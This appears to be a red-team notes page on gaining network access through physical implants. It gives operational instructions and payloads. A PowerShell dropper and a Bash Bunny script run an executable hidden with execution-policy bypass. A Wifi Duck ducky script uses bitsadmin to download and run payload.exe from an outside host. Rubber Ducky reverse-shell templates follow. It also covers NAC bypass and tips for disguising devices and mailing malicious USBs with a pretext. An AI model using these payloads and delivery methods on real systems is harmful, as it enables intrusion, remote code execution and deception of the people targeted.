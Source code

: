 # __Network access via physical implants__
>Author: Pieter Miske
---
### __Physical Red Teaming and implant usage considerations:__
#### _Methods to deliver an implant:_
- Break in: gain access to a physical location of the target and try to plug\-in the implant\.  
- Mail: use post delivery services to send and deliver malicious hardware \(e\.g\. USB stick\) to the target with a convincing pre\-text to get initial foothold \(e\.g\. information on the USB stick is to confidential to deliver via email or make them feel privileged in some way\)\. The payload can be the usb itself \(e\.g\. rubber ducky\) or malicious file on the drive\.  

#### _NAC bypass for dropbox:_
Network Access Control \(NAC\) acts as a kind of a gatekeeper to the local network infrastructure\. Its usually works with whitelists, blacklists, authentication requirements \(creds/certificates\) or host scanning to restrict access and keep unwanted devices out of the network\. NAC can be applied to both wired and wireless networks\. More info can be found here: [The Hacker Recipes](https://www.thehacker.recipes/physical/networking/network-access-control#theory)\.
- MAC spoofing: You take a VoIP phone or a printer, use their MAC address on your attacking machine and you should be provided with an IP address from the DHCP server\. Why? Because these devices are whitelisted as they do not support 802\.1x authentication\. 
- VLAN hopping: This can be achieved by plugging the laptop into the network port of VoIP phone and using a utility such as voiphopper \(pre installed in Kali Linux\)
- Get credentials that give access to the wireless network \(social engineering, dumping from system that is connected, evil twin attack, etc\.\)


---
### __Physcial implant options:__
#### _Bash Bunny:_
This technique starts a reverse shell back to your C2 server based on an obfuscated payload stored on the bash bunny\. The process takes \+/\- 25 seconds to complete\. Bash bunny switches: Arming Mode \(switch closed to the usb connector\); Payload 1 \(switch closed to the back of the usb stick\); Payload 2 \(switch in the middle\)\.
>It is recommended to change the USB name of the BashBunny to something less suspicious like ‘IRONKEY’ \(don’t forget to rename the names in the scripts aswell\)\. 
- 1\. Create an obfuscated \.exe payload for your C2 server
- 2\. \(optional\) If you want to copy the obfuscated payload to disk and execute it from there instead of directly from the bashbunny, create the following script \(run\.ps1\) and reverence it in the bellow “payload\.txt” file:
    ```PowerShell
    $Drive = (Get-WMIObject Win32_Volume | ? { $_.Label -eq 'IRONKEY' }).name
    $user = $env:UserName
    $Dropper = $Drive + "payloads\switch1\payload.exe"
    $DestinationFile1 = "C:\users\public\documents\payload.exe"
    
    If ((Test-Path $DestinationFile1) -eq $false){
        New-Item -ItemType File -Path $DestinationFile1 -Force
    }
    Copy-Item -Path $Dropper -Destination $DestinationFile1
    Start-Process cmd -ArgumentList "/c C:\users\public\documents\payload.exe"
    ```
    - 3\. Create the bashbunny payload\.txt file and specify if you want to run the payload\.exe or run\.ps1 script: 
    ```
    #Sets attack mode and stores current switch position
    LED SETUP
    ATTACKMODE HID STORAGE
    GET SWITCH_POSITION#Runs Powershell script
    LED ATTACK
    RUN WIN powershell -nop -ep bypass -w Hidden ".((gwmi win32_volume -f 'label=''IRONKEY''').Name+'payloads\\$SWITCH_POSITION\<payload.exe OR run.ps1>')"
    LED FINISH
    ```
- 4\. Switch the bash bunny to Arming Mode and upload ‘payload\.txt’, ‘payload\.exe’ and if required ‘run\.ps1’ to: BashBunny > payloads > switch1
- 5\. Change the bash bunny switch to Payload 1, plug it into the unlocked target system and wait until te led light is green\.

#### _Wifi Duck:_
By emulating a USB keyboard like the rubber ducky, this device can be used to remote control a computer via WiFi, automate tasks or execute software to gain full access\.
>It is recommended to rename the Wifi hotspot name of the WifiDuck in the ‘Settings’ tab \(e\.g\. iPhone of John\)\.
- 1\. Plug the Wifi Duck into a target computer, connect to the Wifi Duck wifi hotspot with the password "wifiduck" and browse to "192\.168\.4\.1" to open the interface
- 2\. Here you can add, save and run ducky scripts \(in rubber ducky format\) remotely on the target system \(encoding of the script to \.bin is done automatically\):
    ```
    LED 0 0 255
    DELAY 1000
    GUI r
    DELAY 1000
    
    STRING cmd
    ENTER
    DELAY 1000
    
    STRING bitsadmin /transfer payload.exe http://10.10.10.10/payload.exe %APPDATA%\payload.exe & %APPDATA%\payload.exe & timeout 20 & exit
    ENTER
    DELAY 1000
    LED 0 153 0
    DELAY 2000
    LED 0 0 0
    ```
- 3\. \(optional\) it is possible to autorun a stored script on the duck during the first connection \(disable it in the "Settings" tab\)\.

#### _Rubber Ducky:_
>More rubber ducky payloads can be found [here](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads): 
- 1\. Modify one of the following payload templates and compile using this [online encoder](https://ducktoolkit.com/encode): 
    - Windows reverse shell:
        ```
        DELAY 1000
        GUI r
        DELAY 1000
        STRING cmd
        ENTER
        DELAY 1000
        STRING <command string to execute>
        ENTER
        DELAY 5000
        ```
    - Linux reverse shell:
        ```
        DELAY 500
        ALT F2
        DELAY 300
        STRING lxterminal
        DELAY 300
        ENTER
        DELAY 600
        STRING <insert executable payload here>
        DELAY 2000
        ENTER
        ```
- 2: Save the created inject\.bin to USB rubber ducky
- 3: Inject USB rubber ducky into USB port of the target machine

#### _Raspberry Pi dropbox with NAC bypass:_
__Under construction__
